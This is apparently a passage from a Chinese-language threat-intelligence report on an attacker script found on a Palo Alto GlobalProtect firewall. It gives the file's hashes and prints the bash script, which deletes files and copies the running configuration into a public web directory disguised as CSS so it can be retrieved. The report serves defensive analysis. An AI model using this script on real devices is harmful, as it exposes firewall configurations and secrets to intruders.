 **版本2**  
  
攻击者删除了之前创建的包含各种攻击者命令输出的 CSS 文件，然后将配置数据从防火墙设备复制到新文件中，并将设备的主机名存储在 CSS 文件中。这些文件被保存到外部可访问的 Web 目录中，攻击者随后可以在其中检索它们。  
  
<table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">policy</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">216B (216 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/x-shellscript</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">5e4c623296125592256630deabdbf1d2</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">d12b614e9417c4916d5c5bb6ee42c487c937c058</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">adba167a9df482aa991faaa0e0cde1182fb9acfbb0dc8d19148ce634608bab87</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="470" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>  
```
#!/bin/bash
rm -f /var/appweb/sslvpndocs/global-protect/*.css
cp /opt/pancfg/mgmt/saved-configs/running-config.xml /var/appweb/sslvpndocs/global-protect/<redacted>.css
uname -a > /var/appweb/sslvpndocs/global-protect/<redacted>.css
```  
  